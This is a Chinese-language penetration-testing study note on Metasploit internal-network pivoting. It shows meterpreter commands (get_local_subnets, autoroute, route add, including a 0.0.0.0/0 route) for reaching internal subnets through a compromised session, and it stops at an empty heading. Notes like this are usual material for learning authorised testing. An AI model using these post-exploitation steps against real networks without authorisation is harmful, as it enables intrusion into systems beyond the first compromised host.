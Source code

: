 ```yaml
---
categories: [渗透测试]
tags: metasploit 内网渗透
---
```

# 2023.10.11
参考链接:
1. [内网隧道](https://www.cnblogs.com/0x7e/p/14369551.html)
2. [msf之添加内网路由](https://www.cnblogs.com/0x7e/p/14378746.html)

## 0x01 添加内网路由
在获取到shell后，如果希望继续渗透内网，可以根据以下步骤：

> **_Note:_** 针对metasploit的利用，只要sessions中的route可达，就可以直接进行多层网络渗透，更加方便。但主session掉，均掉！

### 1.1 获取目标内网相关信息
`meterpreter > run get_local_subnets`
![](2023-10-11-09-39-44.png)
> **_Note:_**如果不添加这两个网段路由的话，是探测不到这两个网段其他主机的。

### 1.1 自动添加路由
在获取目标一个sessions 后，可以查看IP段信息并自动添加路由表。

```bash
msf5 exploit(multi/handler) > sessions 1
meterpreter > run get_local_subnets
meterpreter > run autoroute -p
meterpreter > run post/multi/manage/autoroute
meterpreter > run autoroute -p
meterpreter > background
```
### 1.2 手动添加路由
![](2023-10-11-09-35-03.png)

上述是在meterpreter权限中添加，或当知道目标路由表信息时，可直接添加。
```bash
#在全局给指定的session增删路由

msf5 exploit(multi/handler) > route add 192.168.11.0  255.255.255.0  1     #在session1中添加到达192.168.11.0网段的路由
msf5 exploit(multi/handler) > route add 192.168.12.0  255.255.255.0  1     #在session1中添加到达192.168.12.0网段的路由
msf5 exploit(multi/handler) > route add 0.0.0.0       0.0.0.0        1     #在session1中添加到达0.0.0.0/24网段的路由
msf5 exploit(multi/handler) > route del 192.168.12.0  255.255.255.0  2     #在session2中删除到达192.168.12.0网段的路由
msf5 exploit(multi/handler) > route print    #打印路由信息


#也可以在进入session后添加路由
run autoroute -s 192.168.11.0/24             #添加到达192.168.11.0网段的路由
run autoroute -s 192.168.12.0/24             #添加到达192.168.12.0网段的路由
run autoroute -s 0.0.0.0/0                   #添加到达0.0.0.0/0的路由

run autoroute -p                             #打印路由信息
```
![](2023-10-11-09-44-16.png)
现在即可可在metasploit继续渗透，或开启一个socks，挂载其他工具上多层穿透。

> **_Note:_** 以下是添加路由前后探测的对比信息
> ![](2023-10-11-09-44-49.png)
> ![](2023-10-11-09-44-55.png)

> **_Note:_**在实际的内网渗透中，我们可以直接添加到 0.0.0.0/0 的路由。这样，只要该被控主机可达的地址就都可达！
## 0x02 内网扫描
